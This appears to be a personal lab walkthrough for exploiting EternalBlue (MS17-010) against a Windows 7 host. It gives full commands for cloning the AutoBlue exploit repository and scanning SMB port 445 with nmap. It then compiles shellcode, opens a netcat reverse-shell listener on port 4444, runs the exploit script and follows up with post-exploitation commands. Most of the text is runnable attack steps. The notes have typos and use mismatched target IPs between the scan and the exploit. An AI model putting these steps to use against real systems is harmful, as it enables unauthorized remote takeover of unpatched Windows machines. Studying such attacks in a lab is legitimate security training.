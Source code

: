 1. Clone the Repo:
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git  
gh repo clone 3ndG4me/AutoBlue-MS17-010



```
cd /to the dir whre you have requirements.txt/
virtualenv venv1   
source venv/bin/activate
pip install -r requirements.txt
pip list ##to see the list of packages installed.

```

Now take a look at the shellcode.sh this will generate the shellcode.
Now before we do this lets check if the target is vuln or not?

use namp
```
sudo nmap -sV -p 445 -O 10.0.2.5
-- target is win 7
ls -la /usr/share/nmap/scripts | grep smb-

--let's see if this target is vuln to smb- script
nmap -sV -p 445 -O --script=smb- 10.0.2.5 
```

```
chmod 777 shell_prep.sh
./shell_prep.sh

---------------------------------------------------------------------------------
┌──(venv1)─(root㉿kali)-[/home/…/git_clones/metasploit_1_eternablue_manual_git/AutoBlue-MS17-010-master/shellcode]
└─# ./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

```
we're not doing the listner.py as we're using the cmd here for shell

Make the .py file executable.
```
--Another shell:
nc -nvlp 4444
--main shell
python eternalblue_exploit7.py 10.0.2.6 shellcode/sc_x64.bin 
```

    net user
    systeminfo
    getuid

Done!
